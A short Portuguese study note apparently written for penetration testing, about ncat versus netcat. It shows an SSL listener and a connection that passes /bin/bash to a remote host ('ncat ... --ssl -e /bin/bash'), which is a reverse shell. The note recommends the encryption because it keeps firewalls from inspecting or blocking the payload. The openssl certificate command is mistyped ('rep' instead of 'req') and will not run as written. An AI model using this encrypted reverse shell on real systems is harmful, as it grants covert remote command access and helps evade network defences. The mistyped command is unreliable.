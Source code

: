 É uma evolução do netcat

Com o ncat é possivel criar um certificado e uma chave para estabelecer uma conexão encriptada. 

Criar certificado e chave:
	`openssl rep -x509 -newkey rsa:2048 -keyout chave.pem -out cert.pem -days 10`

Abrir comunicação na porta 8443 com o ncat usando o certificado
	`ncat -vnlp 8443 --ssl-key chave.pem --ssl-cert cert.pem`
Permitindo conexão de somente um IP especifico:
	`ncat -vnlp 8443 --ssl-key chave.pem --ssl-cert cert.pem --allow 192.168.0.2`

Conectando na porta:
	`ncat -vn 192.168.1.2 8443 --ssl`
Conectando a porta mandando o bash
		`ncat -vn 192.168.1.2 8443 --ssl -e /bin/bash`

Dessa forma ele estabelece uma conexão encriptada, é interessante pois dificulta para o firewall conseguir entender oque está sendo comunicado na rede e ao enviar um payload o firewall não consegue identificar oque está sendo trafegado logo não sabe se é pra bloquear ou não.

## NCAT X NETCAT

O ncat permite usar criptografia
O ncat permite especificar qual endereço IP pode estabelecer conexão com o "--allow ip"